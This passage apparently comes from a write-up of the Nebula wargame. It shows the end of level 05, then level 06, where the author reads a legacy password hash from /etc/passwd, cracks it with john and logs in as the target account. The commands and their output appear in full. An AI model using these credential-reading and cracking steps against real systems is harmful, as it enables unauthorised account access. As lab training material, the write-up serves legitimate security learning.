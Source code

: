 ```shell

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag05@nebula:~$ whoami
flag05
flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 06

For this level, we are told the flag06 account credentials came from a legacy
unix system. In legacy unix systems, the password hash is stored in the
world-readable /etc/passwd file.

```shell
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

We make a copy of `/etc/passwd` and pass it to `john` to crack the password.
```shell
root@kali:/mnt/hgfs/Share# john passwd
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 DONE 2/3 (2017-11-30 08:12) 16.66g/s 12500p/s 12500c/s 12500C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Having cracked the password hash, we are able to login with the password
"hello".

```shell
level06@nebula:/home/flag06$ su - flag06
Password:
flag06@nebula:~$ whoami
flag06
flag06@nebula:~$ id
uid=993(flag06) gid=993(flag06) groups=993(flag06)
flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 07

We are given the below source code.


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md